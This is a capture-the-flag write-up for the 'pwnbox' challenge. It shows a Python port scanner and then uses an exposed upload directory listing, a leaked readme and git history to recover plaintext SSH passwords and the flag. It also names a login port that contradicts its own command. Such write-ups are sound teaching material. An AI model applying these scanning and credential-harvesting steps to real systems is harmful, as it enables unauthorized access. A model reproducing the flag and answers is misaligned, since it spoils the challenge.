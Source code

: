 
# pwnbox
> Pwn the server to get the flag, the server-ports hide between 7000 and 8000
> 
> challenges.ctf.sikt.no

# Solution 
Scan ports between 7000 and 8000 using a Python script.

```python
# Function to scan ports
def scan_ports(target_ip, port_range):
    open_ports = []

    for port in port_range:
        #print(f"Scanning port {port}...")
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(0.25)
        result = sock.connect_ex((target_ip, port))
        if result == 0:
            print(f"Port {port} is open")
            open_ports.append(port)
        sock.close()

    print(f"Open ports: {open_ports}")

# Main function to parse arguments and call scan_ports
def main():
    parser = argparse.ArgumentParser(description="Port Scanner")
    parser.add_argument("target_ip", help="IP address of the target system")
    parser.add_argument("start_port", type=int, help="Start of the port range")
    parser.add_argument("end_port", type=int, help="End of the port range")

    args = parser.parse_args()

    target_ip = args.target_ip
    port_range = range(args.start_port, args.end_port + 1)

    scan_ports(target_ip, port_range)

if __name__ == "__main__":
    main()
```

```bash
python3 portscan.py challenges.ctf.sikt.no 7000 8000
Port 7203 is open
Port 7204 is open
```

http://challenges.ctf.sikt.no:7203/ is a web server with a file upload feature. Upload a random file...

![alt text](pwn-web.png)

The server outputs the path to the file you uploaded. Copy this url and change the filename to something random like 'derp.file'.

![alt text](pwn-files.png)

The out from the server is now a file listing. The list includes the file 'readme.txt'. Open this file. (http://challenges.ctf.sikt.no:7203/uploads/readme.txt)


The content of readme.txt is containing login information to the ssh server on port 7204.

```
Welcome to the webserver git repository!

Remember to delete this file before starting the server! Dont leak the server password!
Username: dustin   Password: dustin55534llol
```

Use the login information to login to the ssh server on port 7204.

```bash
$ ssh challenges.ctf.sikt.no -p 7204 -l dustin
```

Go into the repo directory and check the git log:
```bash
~/repo$ git log
commit ddf1175265feaf9063ab94180487cd961308a183 (HEAD -> master)
Author: dustin elop <dustin@repo.xyz>
Date:   Fri Oct 18 08:06:00 2024 +0000

    Update readme with dustin credentials

commit 30b702bcd21ac1fc4c1fc13f14e507271efea230
Author: dustin elop <dustin@repo.xyz>
Date:   Fri Oct 18 08:05:59 2024 +0000

    Update readme with admin credentials

commit 1394b87fa297acac7f8d48922d9642f7ededddd5
Author: dustin elop <dustin@repo.xyz>
Date:   Fri Oct 18 08:05:59 2024 +0000

    Initial commit
```

Lets check what the data that was changed in the readme file was.

```bash
$ git show ddf1175265feaf9063ab94180487cd961308a183

commit ddf1175265feaf9063ab94180487cd961308a183 (HEAD -> master)
Author: dustin elop <dustin@repo.xyz>
Date:   Fri Oct 18 08:06:00 2024 +0000

    Update readme with dustin credentials

diff --git a/readme.txt b/readme.txt
index 1f9192d..18ba3aa 100644
--- a/readme.txt
+++ b/readme.txt
@@ -1,3 +1,3 @@
 Welcome to the repository!
 Remember to delete this file before starting the server! Dont leak the server password!
-Username: admin\tPassword: admin1992¤21#!PEccD11Erheh
+Username: dustin\tPassword: dustin55534llol
```

The commit shows the credentials for the user 'admin'. Use these credentials (user: `admin` pass: `admin1992¤21#!PEccD11Erheh`) to login to the ssh server on port 7203. The flag is located in flag.txt.

```bash
$ ssh challenges.ctf.sikt.no -p 7204 -l admin

admin@2687ba6dd4c2:~$ ls
flag.txt
admin@2687ba6dd4c2:~$ cat flag.txt
SiktCTF{Do_You_Know_How_To_Pwn?}

```

> Flag: SiktCTF{Do_You_Know_How_To_Pwn?}